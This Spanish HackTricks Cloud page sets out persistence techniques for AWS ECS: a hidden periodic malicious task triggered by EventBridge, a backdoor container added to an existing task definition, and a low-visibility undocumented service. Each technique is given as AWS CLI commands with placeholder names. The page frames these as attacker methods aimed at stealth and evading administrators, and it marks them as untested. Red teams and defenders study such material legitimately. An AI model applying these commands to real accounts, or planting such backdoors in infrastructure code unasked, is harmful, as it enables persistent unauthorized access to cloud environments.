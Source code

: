 # AWS - Persistencia en ECS

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>

## ECS

Para obtener más información, consulte:

{% content-ref url="../aws-services/aws-ecs-enum.md" %}
[aws-ecs-enum.md](../aws-services/aws-ecs-enum.md)
{% endcontent-ref %}

### Tarea periódica oculta de ECS

{% hint style="info" %}
TODO: Test
{% endhint %}

Un atacante puede crear una tarea periódica oculta de ECS utilizando Amazon EventBridge para **programar la ejecución de una tarea maliciosa periódicamente**. Esta tarea puede realizar reconocimiento, exfiltrar datos o mantener la persistencia en la cuenta de AWS.

```bash
# Crear una definición de tarea maliciosa
aws ecs register-task-definition --family "tarea-maliciosa" --container-definitions '[
  {
    "name": "contenedor-malicioso",
    "image": "imagen-maliciosa:latest",
    "memory": 256,
    "cpu": 10,
    "essential": true
  }
]'

# Crear una regla de Amazon EventBridge para activar la tarea periódicamente
aws events put-rule --name "regla-tarea-ecs-maliciosa" --schedule-expression "rate(1 day)"

# Agregar un objetivo a la regla para ejecutar la tarea ECS maliciosa
aws events put-targets --rule "regla-tarea-ecs-maliciosa" --targets '[
  {
    "Id": "objetivo-tarea-ecs-maliciosa",
    "Arn": "arn:aws:ecs:region:account-id:cluster/your-cluster",
    "RoleArn": "arn:aws:iam::account-id:role/your-eventbridge-role",
    "EcsParameters": {
      "TaskDefinitionArn": "arn:aws:ecs:region:account-id:task-definition/tarea-maliciosa",
      "TaskCount": 1
    }
  }
]'
```

### Contenedor de puerta trasera en la definición de tarea ECS existente

{% hint style="info" %}
TODO: Test
{% endhint %}

Un atacante puede agregar un **contenedor de puerta trasera sigiloso** en una definición de tarea ECS existente que se ejecuta junto con contenedores legítimos. El contenedor de puerta trasera se puede utilizar para la persistencia y para realizar actividades maliciosas.

```bash
# Actualizar la definición de tarea existente para incluir el contenedor de puerta trasera
aws ecs register-task-definition --family "tarea-existente" --container-definitions '[
  {
    "name": "contenedor-legitimo",
    "image": "imagen-legitima:latest",
    "memory": 256,
    "cpu": 10,
    "essential": true
  },
  {
    "name": "contenedor-puerta-trasera",
    "image": "imagen-maliciosa:latest",
    "memory": 256,
    "cpu": 10,
    "essential": false
  }
]'
```

### Servicio ECS no documentado

{% hint style="info" %}
TODO: Test
{% endhint %}

Un atacante puede crear un **servicio ECS no documentado** que ejecute una tarea maliciosa. Al establecer el número deseado de tareas en un mínimo y deshabilitar el registro, se vuelve más difícil para los administradores detectar el servicio malicioso.

```bash
# Crear una definición de tarea maliciosa
aws ecs register-task-definition --family "tarea-maliciosa" --container-definitions '[
  {
    "name": "contenedor-malicioso",
    "image": "imagen-maliciosa:latest",
    "memory": 256,
    "cpu": 10,
    "essential": true
  }
]'

# Crear un servicio ECS no documentado con la definición de tarea maliciosa
aws ecs create-service --service-name "servicio-no-documentado" --task-definition "tarea-maliciosa" --desired-count 1 --cluster "tu-cluster"
```

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>